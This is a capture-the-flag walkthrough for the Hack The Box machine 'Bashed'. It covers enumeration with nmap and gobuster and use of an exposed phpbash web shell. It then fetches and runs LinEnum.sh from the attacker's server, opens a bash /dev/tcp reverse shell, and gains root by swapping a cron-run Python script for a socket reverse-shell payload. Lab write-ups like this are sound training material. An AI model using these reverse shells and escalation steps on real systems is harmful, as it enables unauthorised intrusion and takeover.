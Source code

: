 About #Bashed
Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted,

This is an easy machine from HTB, 

Machine IP address 10.129.156.116

#enumeration
we start with Enumeration of IP using #nmap 

```
nmap -Pn -sVC -n --min-rate 1000 -p- 10.129.156.116
```

Simultaneously we run #gobuster as well since we have a http server running in this ip
The site is related to php bash so lets check what we can do 


```
gobuster dir -u http://10.129.156.116 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.156.116
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 317] [--> http://10.129.156.116/images/]
/uploads              (Status: 301) [Size: 318] [--> http://10.129.156.116/uploads/]
/php                  (Status: 301) [Size: 314] [--> http://10.129.156.116/php/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.156.116/css/]
/dev                  (Status: 301) [Size: 314] [--> http://10.129.156.116/dev/]
/js                   (Status: 301) [Size: 313] [--> http://10.129.156.116/js/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.156.116/fonts/]
/server-status        (Status: 403) [Size: 302]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

above gobuster scan shows that we have /dev directory. 

http://10.129.156.116/dev/phpbash.php

in the above link a bash window opens and to check who it is gave whoami command and ifconfig command to see the ip address of the machine 

```
www-data@bashed:/var/www/html/dev# ifconfig
  
ens33 Link encap:Ethernet HWaddr 00:50:56:94:bd:fc  
inet addr:10.129.156.116 Bcast:10.129.255.255 Mask:255.255.0.0  
inet6 addr: dead:beef::250:56ff:fe94:bdfc/64 Scope:Global  
inet6 addr: fe80::250:56ff:fe94:bdfc/64 Scope:Link  
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1  
RX packets:299711 errors:0 dropped:0 overruns:0 frame:0  
TX packets:297118 errors:0 dropped:0 overruns:0 carrier:0  
collisions:0 txqueuelen:1000  
RX bytes:40893883 (40.8 MB) TX bytes:119699853 (119.6 MB)  
  
lo Link encap:Local Loopback  
inet addr:127.0.0.1 Mask:255.0.0.0  
inet6 addr: ::1/128 Scope:Host  
UP LOOPBACK RUNNING MTU:65536 Metric:1  
RX packets:272 errors:0 dropped:0 overruns:0 frame:0  
TX packets:272 errors:0 dropped:0 overruns:0 carrier:0  
collisions:0 txqueuelen:1  
RX bytes:22928 (22.9 KB) TX bytes:22928 (22.9 KB)
```


run the script #LinEnum_sh from https://github.com/rebootuser/LinEnum/tree/master

in order to run the LinEnum.sh we need to upload the file into the server. to know whether we can use #curl or #wget we can use which command like below

```
www-data@bashed:/dev/shm#which curl 
www-data@bashed:/dev/shm#which wget
/usr/bin/wget
```

As we can see in above output curl didnt give any output whereas wget gave an output that we can use this command. 

start a python http server to upload the file in the system 
```
python3 -m http.server
```

in the server we can use wget command to upload the LinEnum.sh file 

```
wget 10.10.16.20/LinEnum.sh 
```

this gives an error message that access denied so we go to a temporary folder and upload the file 

```
cd /var/shm
wget 10.10.16.20/LinEnum.sh 
```

now the file is uploaded and run the file by using bash command 

```
bash LinEnum.sh
```

it gave a very long output and we found there are 3 users . 

```
00;31m[-] Super user account(s):[00m  
root  
  
  
[00;33m[+] We can sudo without supplying a password![00m  
Matching Defaults entries for www-data on bashed:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User www-data may run the following commands on bashed:  
(scriptmanager : scriptmanager) NOPASSWD: ALL  
  
  
[00;31m[-] Accounts that have recently used sudo:[00m  
/home/arrexel/.sudo_as_admin_successful  
  
  
[00;31m[-] Are permissions on /home directories lax:[00m  
total 16K  
drwxr-xr-x 4 root root 4.0K Dec 4 2017 .  
drwxr-xr-x 23 **root** root 4.0K Jun 2 2022 ..  
drwxr-xr-x 4 **arrexel** arrexel 4.0K Jun 2 2022 arrexel  
drwxr-xr-x 3 **scriptmanager** scriptmanager 4.0K Dec 4 2017 scriptmanager
```

to access the server in the terminal we use the reverse shell codes from [[https://github.com/cwinfosec/pentestmonkey/blob/master/Reverse_Shell_Cheat_Sheet.md|petestmonkey from github]] we can gain access to the server by entering below reverse shell code and simultaneously in an alternative terminal use netcat listener 

```
bash -i >& /dev/tcp/10.10.16.20/1234 0>&1

nc -lvnp 1234
```

once you gain the access user flag is in below location

```
www-data@bashed: cat /home/arrexel/user.txt
cat /home/arrexel/user.txt
394e8baf3d59b57xxxxxxxxxxxxxxx
scriptmanager@bashed:/scripts$ 

```

to see whether we can escalate the privilege as sudo user lets try python command 

```
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:/dev/shm# sudo -u scriptmanager bash -i

www-data@bashed:/dev/shm# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

as we can see above still the user id is www-data instead of root. to escalate the privilege we need to use php reverse shell. for that upload the reverseshell.php to the the server and open a net cat listner in an alternate terminal. we can upload the reverseshell in uploads folder and access via firefox browser to gain access to the server. 

upon gaining the access to the server  enter below command to change the user to scriptmanager

```
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:/dev/shm# sudo -u scriptmanager bash -i
scriptmanager@bashed:/$ whoami
whoami
scriptmanager
```

also as a side step create a reverse shell file in terminal with below command and upload it to the server

```
nano shell.py  
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.20",1234))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

upload this python file to the server and replace with existing test.py

```
wget 10.10.16.20:8000/shel.py
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt  shell.py
mv shell.py test.py
```

in an alternate terminal open a netcat listner as per the port mentioned in writeup.py

```
nc -lvnp 1234
```

once the test.py is executed we will get the access to the root 

```
nc -lvnp 1234  
listening on [any] 1234 ...
connect to [10.10.16.20] from (UNKNOWN) [10.129.156.116] 58690
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls
test.py
test.txt
# cat test.txt
testing 123!# ls /home
arrexel
scriptmanager
# ls
test.py
test.txt
# ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Oct  2 05:50 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager  214 Oct  2 05:42 test.py
-rw-r--r--  1 root          root            12 Oct  2 05:47 test.txt
# crontab -l
* * * * * cd /scripts; for f in *.py; do python "$f"; done
# cat test.txt
testing 123!# cd /root
# ls
root.txt
# cat root.txt
5d9163b281ddbeaf24xxxxxxxxxxxx8
# 
```


